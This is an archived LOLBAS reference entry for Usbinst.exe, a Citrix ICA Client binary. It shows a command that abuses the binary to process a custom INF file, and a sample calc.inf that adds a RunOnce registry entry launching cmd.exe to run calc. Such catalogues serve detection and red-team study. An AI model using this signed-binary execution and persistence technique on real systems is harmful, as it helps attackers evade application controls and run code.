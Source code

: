 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Usbinst.exe

* Functions: Execute

```
Usbinst.exe InstallHinfSection "DefaultInstall 128 c:\temp\calc.inf"
 
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken


Resources:
* https://twitter.com/pabraeken/status/993514357807108096

Full path:
```
C:\Program Files (x86)\Citrix\ICA Client\Drivers64\Usbinst.exe
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```




 
